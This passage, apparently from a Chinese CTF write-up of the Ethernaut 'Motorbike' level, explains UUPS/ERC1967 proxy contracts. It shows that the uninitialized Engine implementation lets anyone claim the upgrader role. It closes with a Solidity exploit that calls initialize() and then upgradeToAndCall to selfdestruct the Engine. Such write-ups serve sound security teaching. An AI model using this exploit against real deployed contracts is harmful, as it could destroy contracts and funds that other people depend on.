    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

### 前置知识

**UUPS:**

UUPS（可升级代理）通过：

* delegatecall 让代理合约使用逻辑合约的代码；
* 逻辑合约包含升级逻辑（比如 upgradeToAndCall）；
* 升级逻辑写入的是代理合约的存储。

UUPS 代理是使用 [ERC1967Proxy](https://docs.openzeppelin.com/contracts/4.x/api/proxy#ERC1967Proxy) 实现的。请注意，此代理本身是不可升级的。除了 Contract 的 logic，implementation 的作用是包括更新存储在代理存储空间中特定插槽的 implementation's address 所需的所有代码。这就是 [UUPSUpgradeable](https://docs.openzeppelin.com/contracts/4.x/api/proxy#UUPSUpgradeable) 合约的用武之地。从它继承（并使用相关的访问控制机制覆盖 [\_authorizeUpgrade](https://docs.openzeppelin.com/contracts/4.x/api/proxy#UUPSUpgradeable-_authorizeUpgrade-address-) 函数）将把你的合约变成一个符合 UUPS 的实现。

**ERC1967：**

该合约实现了可升级的代理。它是可升级的，因为调用被委托给 可以更改的实现地址。此地址存储在 [EIP1967](https://eips.ethereum.org/EIPS/eip-1967)，这样它就不会与代理背后实现的存储布局发生冲突。

### 分析代码

照旧两个合约，一个代理合约，一个逻辑合约

代理：

```
contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc; //这是 EIP-1967 规范中定义的用于存储实现合约地址的固定插槽。它确保在代理合约中可以一致地定位和读取实现合约地址，避免插槽冲突。

    struct AddressSlot {
        address value;
    }

    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    //构造函数
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract"); //检查是否是逻辑地址
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic; //将逻辑地址的写入EIP-1967规范的槽中
        (bool success,) = _logic.delegatecall(abi.encodeWithSignature("initialize()"));
        //用delegatecall来调用initalize来初始化，调用的是 Engine.initialize()，但上下文是 Motorbike合约
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            //使用 delegatecall 将函数调用委托给实现合约。保持了调用者上下文，包括 msg.sender 和 msg.value。
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`.
    // Will run if no other function in the contract matches the call data
    //任何调用 Motorbike 合约但未匹配函数签名的调用会被转发给 _implementation() 返回的地址（即当前实现地址）。
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }
    
    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot  //返回一个指向特定存储槽的引用（用于读取或写入实现地址）。
        }
    }
}
```

这一关采用了一种名为 UUPS（通用可升级代理标准）的代理模式。我们在上一关中看到的最后一个模式是透明代理模式。

逻辑：

```
contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;//同上

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    //使用了initializer修饰符，确保只能调用一次
    function initialize() external initializer {
        horsePower = 1000; //初始马力值为1000
        upgrader = msg.sender; //调用者为可升级者
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade(); //认证
        _upgradeToAndCall(newImplementation, data); //执行任意代码 
    }

    // Restrict to upgrader role
    //认证用户身份，只能是可升级者
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(address newImplementation, bytes memory data) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation); 
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data); //通过 delegatecall 执行额外的初始化逻辑。
            require(success, "Call failed");
        }
    }

    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");

        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

这里需要注意到的是，在当前的实现中，initialize（）函数理应由代理合约主动调用。这一点在它的构造函数中有所体现。但请记住，它是通过delegatecall（）来执行的。而当调用合约向另一个合约发出代理调用时，调用合约的存储槽会被使用逻辑合约的代码进行更新。

属实的是，代理合约只能调用一次初始化函数，并且会更新其存储值。但如果我们要找到实现合约的部署地址并手动调用初始化函数会怎样呢？在实施合约的上下文中， Engine 合约自身的状态是没有被初始化的 (upgrader 为空), 这代表我们可以手动调用 Engine 合约的 initalize 函数, 然后调用 upgradeToAndCall。因此，如果我们打算调用该函数，那么我们的用户（msg.sender）将变成升级者。

### exp

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//手动调用
contract Attack {
    function hack(address engine, address hacker) external {
        bytes memory data = abi.encodeWithSignature("kill()");
        engine.call(abi.encodeWithSignature("initialize()"));
        engine.call(abi.encodeWithSignature("upgradeToAndCall(address,bytes)", hacker, data));
    }
}

contract hacker {
    function kill() external {
        selfdestruct(payable(msg.sender));
    }
}
```
